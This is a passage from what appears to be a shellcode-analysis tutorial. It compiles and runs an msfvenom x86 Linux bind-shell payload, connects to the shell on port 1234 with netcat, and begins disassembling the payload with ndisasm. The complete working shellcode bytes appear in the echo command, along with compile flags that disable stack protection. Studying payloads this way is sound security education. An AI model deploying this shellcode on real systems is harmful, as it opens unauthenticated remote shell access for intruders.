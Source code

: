 ```bash
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```
------------------------------------------------------------------------------------------------------------------------
We run the program.
```bash
$ ./shellcode 
Shellcode Length:  20
```
------------------------------------------------------------------------------------------------------------------------
<p style="text-align: justify;">What we see in the answer is the length of the shellcode, which seems incorrect at first glance. This is because the shellcode generated by msfvenom does not by default prohibit the use of so-called null-byte ("\ x00"), which in our case is a terminator of a string, which we can confirm by searching for the string "00" (the first line containing 15 characters will be omitted, please add the characters of the next line, 15 + 5 = 20 characters)</p>

```bash
$ cat shellcode.c | grep 00
"\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a"
```
------------------------------------------------------------------------------------------------------------------------
<p style="text-align: justify;">Then, opening another terminal and executing the netstat -antp command, we notice that shellcode actually works and we can connect to the port of our choice, obtaining a shell.</p>

```bash
$ netstat -antp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:1234            0.0.0.0:*               LISTEN      24304/shellcode 
tcp        0      0 127.0.1.1:53            0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        1      0 172.16.237.201:32845    91.189.92.92:80         CLOSE_WAIT  2552/ubuntu-geoip-p
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               

$ nc localhost 1234
whoami
slae
```
------------------------------------------------------------------------------------------------------------------------
<p style="text-align: justify;">For our analyzes, we will use ndisasm software. To do this, call our shellcode with the echo command and then use the pipe character to pass the output to the ndisasm software.</p>

```bash
$ echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" | ndisasm -u -
```
```nasm
00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
00000004  53                push ebx 
00000005  43                inc ebx
00000006  53                push ebx 
00000007  6A02              push byte +0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66 
0000000D  CD80              int 0x80
0000000F  5B                pop ebx 
```